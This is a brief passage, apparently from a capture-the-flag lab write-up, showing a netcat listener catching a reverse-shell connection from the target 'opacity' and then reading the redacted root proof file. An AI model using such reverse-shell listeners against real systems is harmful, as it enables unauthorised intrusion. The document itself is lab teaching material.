 Our netcat listener has an incoming connection and we now have access to a root shell.

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.11.118] from (UNKNOWN) [10.10.66.215] 42280
root@opacity:/# whoami
root
root@opacity:/# cat /root/proof.txt
a**REDACTED**e
```
